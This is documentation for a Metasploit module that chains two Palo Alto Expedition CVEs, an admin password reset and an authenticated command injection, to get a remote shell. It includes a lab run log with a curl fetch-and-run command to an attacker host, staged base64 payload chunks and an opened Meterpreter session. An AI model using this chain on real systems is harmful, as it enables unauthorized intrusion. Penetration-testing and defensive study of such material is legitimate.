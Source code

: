 ## Vulnerable Application

This module exploits two vulnerabilities in Palo Alto Expedition to obtain a remote shell. The first vulnerability, CVE-2024-5910, allows to
reset the password of the admin user. The second vulnerability, CVE-2024-9464, is an authenticated OS command injection.

When credentials are provided, this module will only exploit the second vulnerability. If no credentials are provided, the module will
first try to reset the admin password and then perform the OS command injection. In a default installation, commands will get executed in
the context of www-data.

Note: If no credentials are available, the module will attempt to reset the admin password. For this, the parameter RESET_ADMIN_PASSWD must
explicitly be set to true.

## Testing

The software can be obtained from
[the vendor](https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool).

Installation instructions are available [here]
(https://live.paloaltonetworks.com/t5/expedition-articles/expedition-documentation/ta-p/215619?attachment-id=13781).

**Successfully tested on**

- Expedition v1.2.91 on Ubuntu Server 20.04.1.

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > msf6 > use exploit/linux/http/paloalto_expedition_rce 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/paloalto_expedition_rce) > set RHOSTS <IP>
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit
```

You should get a meterpreter session in the context of `www-data`.

## Options

### USERNAME
Username for authentication, if available.

### PASSWORD
Password for the associated user.
### WRITABLE_DIR
A writable location for the exploit to stage the command payload.

### RESET_ADMIN_PASSWD
If the username and password are not specified, the module will attempt to reset the admin password to the default password `paloalto`. This
is also done to authenticate and retrieve the exact version information, in case no credentials have been provided. As this alters the
configuration of the target system, the `RESET_ADMIN_PASSWD` parameter serves as a safeguard that must explicility set to true before the
reset endpoint is being invoked.

## Scenarios

Running the exploit against Expedition v1.2.91 on Ubuntu Server 20.04.1, using curl or wget as a fetch command, should result in an output
similar to the following:

```
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit 

[*] Command to run on remote host: curl -so /tmp/zRe http://192.168.137.204:8080/qv_gAdz7yjcgH-ohM3GesA; chmod +x /tmp/zRe; /tmp/zRe &
[*] Fetch handler listening on 192.168.137.204:8080
[*] HTTP server started
[*] Adding resource /qv_gAdz7yjcgH-ohM3GesA
[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Admin password successfully restored to default value paloalto (CVE-2024-5910).
[+] Successfully authenticated
[*] Got csrftoken: MTczMTM4MjY0NUNRV0RkNXBXR3Vic2hkR1ZZTHBSQTd1cWY5MjVWYWIw
[*] Version retrieved: 1.2.91
[+] The target appears to be vulnerable.
[*] Command chunk size = 30
[+] Successfully authenticated
[*] Got csrftoken: MTczMTM4MjY0NnpDVDRUcXdDRWhvZ09HWDNnMFdHUW81cXU2aHppTEdE
[*] Adding a new cronjob...
[*] Staging chunk 1 of 9
[*] Running command: echo -n "echo Y3VybCAtc28gL3RtcC96UmUga" > /tmp/fglGT
[*] Staging chunk 2 of 9
[*] Running command: echo -n "HR0cDovLzE5Mi4xNjguMTM3LjIwNDo" >> /tmp/fglGT
[*] Staging chunk 3 of 9
[*] Running command: echo -n "4MDgwL3F2X2dBZHo3eWpjZ0gtb2hNM" >> /tmp/fglGT
[*] Staging chunk 4 of 9
[*] Running command: echo -n "0dlc0E7IGNobW9kICt4IC90bXAvelJ" >> /tmp/fglGT
[*] Staging chunk 5 of 9
[*] Running command: echo -n "lOyAvdG1wL3pSZSAm|((command -v" >> /tmp/fglGT
[*] Staging chunk 6 of 9
[*] Running command: echo -n " base64 >/dev/null && (base64 " >> /tmp/fglGT
[*] Staging chunk 7 of 9
[*] Running command: echo -n "--decode || base64 -d)) || (co" >> /tmp/fglGT
[*] Staging chunk 8 of 9
[*] Running command: echo -n "mmand -v openssl >/dev/null &&" >> /tmp/fglGT
[*] Staging chunk 9 of 9
[*] Running command: echo -n " openssl enc -base64 -d))|sh" >> /tmp/fglGT
[+] Command staged; command execution requires a timeout and will take a few seconds.
[*] Running command: cat /tmp/fglGT | sh && rm /tmp/fglGT
[*] Client 192.168.137.205 requested /qv_gAdz7yjcgH-ohM3GesA
[*] Sending payload to 192.168.137.205 (curl/7.68.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.137.205
[*] Meterpreter session 10 opened (192.168.137.204:4444 -> 192.168.137.205:58030) at 2024-11-11 22:37:40 -0500
[*] Check thy shell.

meterpreter > sysinfo
Computer     : 192.168.137.205
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
```
